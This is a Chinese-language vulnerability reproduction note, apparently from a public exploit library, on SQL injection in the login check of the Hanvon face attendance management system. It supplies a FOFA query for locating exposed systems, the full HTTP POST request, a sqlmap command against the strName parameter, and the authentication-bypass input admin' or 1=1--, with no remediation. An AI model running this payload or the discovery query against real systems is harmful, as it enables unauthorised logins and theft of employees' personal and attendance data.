```yaml
---
title: 汉王人脸考勤管理系统 Check SQL注入漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 汉王科技
---
```


# 汉王人脸考勤管理系统 Check SQL注入漏洞

## 漏洞描述

汉王人脸考勤管理系统存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。

## 漏洞影响

> [!NOTE]
>
> 汉王人脸考勤管理系统

## FOFA

> [!NOTE]
>
> title=""汉王人脸考勤管理系统""

## 漏洞复现

登录界面如下

![1](/img/20210924020253175403.png)

请求包如下

```shell
POST /Login/Check HTTP/1.1
Host: x.x.x.x
Content-Length: 27
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://x.x.x.x:8088
Referer: http://x.x.x.x:8088/Login/Index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=otvxgfy0csmrw4i5y5t24oo1
Connection: close

strName=admin&strPwd=123456
```

其中strName参数存在注入

```shell
sqlmap -r postwang.txt -p strName  --current-user
```

![](/img/20210924015203425276.png)

```
user: admin' or 1=1--
pass: admin
```

万能密码绕过登录

![](/img/20210924015204849310.png)

## Goby & POC

![](/img/20210924015205136128.png)